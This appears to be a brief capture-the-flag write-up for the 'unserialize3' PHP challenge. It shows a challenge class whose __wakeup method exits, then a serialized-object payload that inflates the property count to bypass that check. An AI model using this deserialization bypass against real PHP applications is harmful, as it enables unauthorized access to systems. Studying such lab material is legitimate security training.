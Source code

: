 # unserialize3

```py
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```

payload:

```
?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

绕过 `__wakeup`:

[Web_php_unserialize](https://github.com/lengochoa7112000/CTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/Web_php_unserialize/READ%20ME.md)
